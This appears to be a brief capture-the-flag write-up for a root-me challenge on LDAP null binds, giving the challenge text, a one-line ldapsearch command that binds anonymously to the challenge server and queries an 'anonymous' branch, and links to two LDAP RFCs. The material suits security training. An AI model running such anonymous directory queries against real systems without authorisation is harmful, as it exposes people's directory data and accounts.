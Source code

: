 # LDAP null bind

[root-me challenge LDAP - null bind](https://www.root-me.org/en/Challenges/Network/LDAP-null-bind): It seems that one of the anonymous created a new branch in the LDAP directory, somewhere in:

    dc=challenge01,dc=root-me,dc=org

Get access to its data and get his email adress.

----

```text
ldapsearch -x -b "ou=anonymous,dc=challenge01,dc=root-me,dc=org" -H "ldap://challenge01.root-me.org:54013"
```

## Resources

* [rfc4512](https://repository.root-me.org/RFC/EN%20-%20rfc4512.txt)
* [rfc4513](https://repository.root-me.org/RFC/EN%20-%20rfc4513.txt)
